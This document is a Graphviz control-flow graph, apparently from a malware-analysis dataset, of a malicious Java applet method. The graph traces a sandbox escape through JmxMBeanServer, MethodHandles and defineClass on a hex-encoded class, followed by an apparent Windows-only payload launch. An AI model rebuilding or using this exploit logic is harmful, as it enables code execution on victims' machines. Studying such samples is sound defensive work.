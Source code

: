 digraph "" {
    "r0 := @this: xml20130422.XML20130422"
    "load.r r0"
    "r0 := @this: xml20130422.XML20130422"->"load.r r0";
    "staticget <xml20130422.XML20130422: java.lang.String ByteArrayWithSecOff>"
    "load.r r0"->"staticget <xml20130422.XML20130422: java.lang.String ByteArrayWithSecOff>";
    "virtualinvoke <xml20130422.XML20130422: byte[] hex2Byte(java.lang.String)>"
    "staticget <xml20130422.XML20130422: java.lang.String ByteArrayWithSecOff>"->"virtualinvoke <xml20130422.XML20130422: byte[] hex2Byte(java.lang.String)>";
    "store.r r20"
    "virtualinvoke <xml20130422.XML20130422: byte[] hex2Byte(java.lang.String)>"->"store.r r20";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r20"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "dup1.r"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "push \"sun.org.mozilla.javascript.internal.Context\""->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r4"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r4";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "store.r r4"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"push null";
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r5"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r5";
    "load.r r5"
    "store.r r5"->"load.r r5";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "load.r r5"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "store.r r6"
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r r6"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findConstructor\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findConstructor\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "push \"findConstructor\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push 1"
    "push class \"Ljava/lang/Class;\""->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "store.r r9"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r9";
    "staticget <java.lang.System: java.io.PrintStream out>"
    "store.r r9"->"staticget <java.lang.System: java.io.PrintStream out>";
    "push \"1\""
    "staticget <java.lang.System: java.io.PrintStream out>"->"push \"1\"";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"
    "push \"1\""->"virtualinvoke <java.io.PrintStream: void println(java.lang.String)>";
    "push 3"
    "virtualinvoke <java.io.PrintStream: void println(java.lang.String)>"->"push 3";
    "push 3"->"newarray";
    "store.r r11"
    "newarray"->"store.r r11";
    "load.r r11"
    "store.r r11"->"load.r r11";
    "load.r r11"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "load.r r11"->"push 1";
    "load.r r4"
    "push 1"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "push 2"
    "load.r r11"->"push 2";
    "load.r r9"
    "push 2"->"load.r r9";
    "load.r r9"->"arraywrite.r";
    "arraywrite.r"->"load.r r11";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r11"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r11";
    "store.r r11"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r9";
    "store.r r9"->"load.r r9";
    "load.r r9"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"push 1";
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"findVirtual\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"findVirtual\"";
    "push \"findVirtual\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r r9";
    "load.r r9"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r9";
    "push class \"Ljava/lang/ClassLoader;\""
    "store.r r9"->"push class \"Ljava/lang/ClassLoader;\"";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "push class \"Ljava/lang/ClassLoader;\""->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "store.r r14"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r14";
    "push 4"
    "store.r r14"->"push 4";
    "push 4"->"newarray";
    "store.r $r35"
    "newarray"->"store.r $r35";
    "load.r $r35"
    "store.r $r35"->"load.r $r35";
    "load.r $r35"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r $r35";
    "load.r $r35"->"push 1";
    "push 1"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r $r35";
    "load.r $r35"->"push 2";
    "push \"createClassLoader\""
    "push 2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r35";
    "load.r $r35"->"push 3";
    "load.r r14"
    "push 3"->"load.r r14";
    "load.r r14"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r $r35";
    "load.r $r35"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r4";
    "store.r r4"->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push class \"Ljava/lang/String;\"";
    "push class \"Ljava/lang/String;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"[B\""
    "push 0"->"push class \"[B\"";
    "push class \"[B\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r11";
    "store.r r11"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r14";
    "store.r r14"->"load.r r14";
    "load.r r14"->"push 0";
    "push 0"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r14";
    "load.r r14"->"push 3";
    "push 3"->"load.r r11";
    "load.r r11"->"arraywrite.r";
    "arraywrite.r"->"load.r r9";
    "load.r r9"->"load.r r14";
    "load.r r14"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 2";
    "load.r r20"
    "push 2"->"load.r r20";
    "load.r r20"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"load.r r0";
    "push \"bn\""
    "load.r r0"->"push \"bn\"";
    "virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>"
    "push \"bn\""->"virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>"->"store.r r20";
    "store.r r20"->"load.r r0";
    "push \"xiaomaolv\""
    "load.r r0"->"push \"xiaomaolv\"";
    "push \"xiaomaolv\""->"virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>"->"store.r r5";
    "store.r r5"->"load.r r0";
    "push \"si\""
    "load.r r0"->"push \"si\"";
    "push \"si\""->"virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>"->"store.r r6";
    "store.r r6"->"load.r r0";
    "push \"bs\""
    "load.r r0"->"push \"bs\"";
    "push \"bs\""->"virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <xml20130422.XML20130422: java.lang.String getParameter(java.lang.String)>"->"store.r r0";
    "push \"os.name\""
    "store.r r0"->"push \"os.name\"";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "push \"os.name\""->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "push \"Windows\""
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"push \"Windows\"";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"
    "push \"Windows\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "iflt return"
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"load.r r5";
    "load.r r5"->"load.r r20";
    "load.r r20"->"load.r r6";
    "load.r r6"->"load.r r0";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>"
    "load.r r0"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>";
    "staticinvoke <xml20130422.LML: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(java.lang.String)>"->"staticinvoke <xml20130422.LML: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>";
    "staticinvoke <xml20130422.LML: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <xml20130422.LML: java.lang.Object mrun(java.lang.String,java.lang.String,java.lang.String,java.lang.Integer)>"->"store.r r0";
}
